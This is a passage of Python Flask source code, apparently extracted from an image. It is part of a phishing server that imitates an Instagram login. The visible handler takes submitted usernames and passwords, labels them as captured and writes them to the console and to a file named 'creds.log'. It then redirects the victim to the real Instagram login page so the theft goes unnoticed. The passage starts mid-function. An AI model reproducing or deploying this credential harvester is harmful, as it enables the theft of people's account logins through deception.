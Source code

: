     if username and password:
        log_entry = (
            f"[{timestamp}] Captured Login Attempt\n"
            f"    Username: {username}\n"
            f"    Password: {password}\n"
            + "=" * 40 + "\n"
        )
        # Log to console
        print(log_entry)
        # Log to file
        with open("creds.log", "a") as f:
            f.write(log_entry)

        # Redirect to the official Instagram login page
        return redirect("https://www.instagram.com/accounts/login/")
    else:
        return "Invalid input."

if __name__ == '__main__':
    # Use 127.0.0.1 to avoid "getaddrinfo failed" errors
    app.run(host='127.0.0.1', port=5000, debug=True)
